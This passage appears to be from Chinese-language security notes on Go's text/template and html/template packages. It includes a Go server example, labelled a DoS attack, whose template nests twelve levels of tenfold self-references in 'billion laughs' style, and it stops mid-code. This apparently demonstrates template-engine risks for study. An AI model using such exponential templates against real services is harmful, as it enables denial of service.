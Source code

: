go语言自带有两个模板包，text/template和html/template，text/template是基础包，html/template是在其上实现的专为html提供的模板。 第三方模板引擎常用的有https://github.com/flosch/pongo2/。

代码示例（dos攻击)：

```go
package main

import (
    "log"
    "net/http"
    "text/template"
)

type Inventory struct {
    Name  string
    Count int
    Func  func(int) int
    t     int
    Arr   []int
}

func Eval(i int) int {
    return i + 2
}

func main() {
    sweaters := Inventory{
        Name: "test",
        Count: 17,
        Func: func(i int) int {
            return i + 1
        },
        t:   2,
        Arr: []int{1, 2, 3, 4},
    }
    http.HandleFunc("/bar", func(w http.ResponseWriter, r *http.Request) {
        tmpl, err := template.New("test").Parse(`{{define "T0"}}{{end}}{{define "T1"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{template "T0"}}{{end}}
{{define "T2"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{template "T1"}}{{end}}
{{define "T3"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{template "T2"}}{{end}}
{{define "T4"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{template "T3"}}{{end}}
{{define "T5"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{template "T4"}}{{end}}
{{define "T6"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{template "T5"}}{{end}}
{{define "T7"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{template "T6"}}{{end}}
{{define "T8"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{template "T7"}}{{end}}
{{define "T9"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{template "T8"}}{{end}}
{{define "T10"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{template "T9"}}{{end}}
{{define "T11"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{template "T10"}}{{end}}
{{define "T12"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{template "T11"}}{{end}}
```